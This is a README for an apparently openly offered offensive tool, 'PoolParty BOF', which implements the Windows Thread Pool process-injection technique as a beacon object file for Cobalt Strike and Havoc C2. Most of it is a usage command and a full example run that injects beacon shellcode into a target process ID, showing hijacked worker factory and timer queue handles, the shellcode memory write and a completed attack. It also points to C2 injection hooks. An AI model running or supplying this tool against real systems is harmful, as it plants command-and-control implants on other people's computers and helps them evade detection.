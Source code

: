 # PoolParty BOF

A beacon object file implementation of [PoolParty Process Injection Technique](https://github.com/SafeBreach-Labs/PoolParty/) by [@_SafeBreach_](https://www.safebreach.com/) and [@_0xDeku_](https://twitter.com/_0xDeku), that abuses Windows Thread Pools. The BOF supports the 5 technique/variant:
- Insert TP_IO work item to the target process's thread pool.
- Insert TP_ALPC work item to the target process's thread pool.
- Insert TP_JOB work item to the target process's thread pool.
- Insert TP_DIRECT work item to the target process's thread pool.
- Insert TP_TIMER work item to the target process's thread pool.

I will try to keep adding remaining variants.

## Usage
```
PoolPartyBof <Process ID> <Path To Shellcode> <Variant>
```

- Usage Examples

```
 PoolPartyBof 2136 /tmp/beacon_x64.bin 4
[*] Opening 2136 and running PoolParty with /tmp/beacon_x64.bin shellcode!
[+] host called home, sent: 314020 bytes
[+] received output:
[INFO] 	Shellcode Size: 307200 bytes
[+] received output:
[INFO] 	Starting PoolParty attack against process id: 2136
[+] received output:
[INFO]   Retrieved handle to the target process: 0000000000000670
[+] received output:
[INFO] 	Hijacked worker factory handle from the target process: 000000C96E0FF5B8
[+] received output:
[INFO] 	Hijacked timer queue handle from the target process: 000000C96E0FF5B8
[+] received output:
[INFO]   Allocated shellcode memory in the target process: 00000290C91B0000
[+] received output:
[INFO]   Written shellcode to the target process
[+] received output:
[INFO] 	Retrieved target worker factory basic information
[+] received output:
[INFO] 	Created TP_TIMER structure associated with the shellcode
[+] received output:
[INFO] 	Allocated TP_TIMER memory in the target process: 00000290C9200000 
[+] received output:
[INFO] 	Written the specially crafted TP_TIMER structure to the target process
[+] received output:
[INFO] 	Modified the target process's TP_POOL timer queue WindowsStart and Windows End to point to the specially crafted TP_TIMER
[+] received output:
[INFO] 	Set the timer queue to expire to trigger the dequeueing TppTimerQueueExpiration
[+] received output:
[INFO] 	PoolParty attack completed.
```

![](img/PoolPartyBof.png)
![](img/PoolPartyBofHavoc.png)

> The BOF can be further used with [Process Injection Hooks](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/malleable-c2-extend_control-process-injection.htm) provided within Cobaltstrike, and [Rastamouse](https://twitter.com/_RastaMouse) has a perfect [blog](https://offensivedefence.co.uk/posts/cs-process-inject-kit/) too.


> Added [Havoc](https://github.com/HavocFramework/Havoc/) BOF support. You are welcome to open an issue, if something doesn't work. For [sliver C2](https://github.com/BishopFox/sliver) it partially works, but Somehow the remote process crashes when executed the shellcode.


### Credits and Orginal Work
- [Blackhat Slides](https://www.blackhat.com/eu-23/briefings/schedule/#the-pool-party-you-will-never-forget-new-process-injection-techniques-using-windows-thread-pools-35446)
- [Alon Leviev](https://twitter.com/_0xDeku)
- [SafeBreach](https://www.safebreach.com/)
